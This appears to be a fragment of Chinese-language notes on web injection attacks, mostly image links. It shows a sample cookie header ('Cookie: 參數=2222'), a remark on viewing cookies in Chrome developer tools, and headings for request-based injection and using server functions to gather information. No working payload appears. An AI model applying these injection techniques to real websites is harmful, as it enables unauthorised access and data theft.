
在header中加入Cookie: 參數=2222

Google chrome的開發人員工作也能查詢cookie值


	4.	Request式注入


Server函數
利用Server function獲取多項訊息
